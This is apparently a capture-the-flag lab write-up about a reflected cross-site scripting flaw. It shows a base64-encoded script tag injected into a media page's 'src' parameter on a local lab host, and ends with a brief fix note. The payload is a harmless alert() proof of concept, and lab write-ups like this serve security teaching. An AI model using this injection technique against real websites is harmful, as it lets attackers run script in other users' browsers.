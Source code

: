 # 09_Unprotected_media_type

Attribute accepts html/text types

## Method 

Go to http://192.168.1.59/  
Inpect the blue National Security Agency logo  
It is a link containing media, the source is not protected

## Manipulation

Base64 encode a script
```bash
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg==
```
Insert this hash into the `src` attribute
```bash
href="?page=media&src=PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg=="
```
Then click on the src link


## Resolve

Use types & headers correctly

## Resources

https://hackerone.com/reports/513105
https://www.base64encode.org/
